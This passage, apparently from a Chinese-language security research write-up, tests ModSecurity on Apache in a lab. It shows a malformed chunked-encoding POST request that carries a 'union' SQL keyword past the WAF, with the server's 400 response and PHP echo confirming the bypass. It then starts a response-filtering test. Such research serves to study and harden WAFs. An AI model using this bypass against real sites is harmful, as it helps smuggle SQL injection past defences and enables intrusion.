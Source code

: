 可以看到我们的“union”关键字被拦截了。

接下来我们传输一个畸形的分块数据包看看。

```markup
请求:
POST /sql.php?id=2%20union HTTP/1.1
......
Transfer-Encoding: chunked

1
aa
0
(两个换行)


返回:
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.2.15 (CentOS) Server at 10.10.10.10 Port 80</address>
</body></html>
========GET==========
Array
(
   [id] => 2 union
)
========POST==========
Array
(
)
```

可以看到虽然apache报错了，但是因为apache容错很强，所以我们提交的参数依然传到了php，而我们的ModSecurity并没有处理400错误的数据包，最终绕过了ModSecurity。

接下来我们把ModSecurity的规则改为过滤返回数据中包含“root”的字符串，然后在sql.php脚本中加入打印“root”关键字的代码。

接着我们做如下测试：

```markup
请求：
http://10.10.10.10/sql.php?id=1

返回:
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /sql.php
on this server.</p>
<hr>
<address>Apache/2.2.15 (CentOS) Server at 10.10.10.10 Port 80</address>
</body></html>
```
